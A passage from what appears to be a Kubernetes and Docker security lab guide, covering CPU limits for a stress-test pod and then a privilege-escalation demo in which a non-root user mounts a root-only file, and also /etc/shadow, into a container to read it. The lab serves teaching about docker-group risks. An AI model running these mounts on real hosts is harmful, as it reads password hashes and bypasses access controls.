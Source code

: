     > The `-cpus "2"` argument in the `yaml` file tells the Container to attempt to use 2 CPUs.

    Update cpu stress container to limit the amount of cpu to only 1 core.

    ```bash
    # deploy container with limits
    kubectl apply -f ./01_pod_resource_limits/cpu-testing-limits.yaml
    ```

    Observe how the container is limited to consume maximum 1 cpu.

5. Terminate all deployed resources.

    ```bash
    kubectl delete -f ./01_pod_resource_limits/metrics-server.yaml
    kubectl delete -f ./01_pod_resource_limits/mem-testing.yaml
    kubectl delete -f ./01_pod_resource_limits/cpu-testing.yaml
    ```

[You can learn more about limiting resources here.](https://kubernetes.io/docs/tasks/configure-pod-container/assign-pod-level-resources/)

## Privilege Escalation Using Docker Containers

1. Create a new file as the `root` user.

    ```bash
    sudo -i # login as root
    echo "supersecret" > /tmp/secret.txt
    chmod 600 /tmp/secret.txt
    ```

2. List files and read `secret.txt` content as root.

    ```bash
    # list files in current directory
    ls -lhr /tmp/secret.txt
    # show content of file
    cat /tmp/secret.txt
    exit # logout from root
    ```

3. Using a regular user (non-root) account try to display the content of the `secret.txt` file.

    ```bash
    cat /tmp/secret.txt
    ```

4. Using a regular user (non-root) account run a docker container and mount the `secret.txt` file to read the content.

    ```bash
    docker run -v "/tmp/secret.txt:/tmp/secret.txt" -it alpine sh -c "cat /tmp/secret.txt"
    # you can do the same with the /etc/shadow file
    docker run -v "/etc/shadow:/tmp/shadow" -it alpine sh -c "cat /tmp/shadow"
    ```
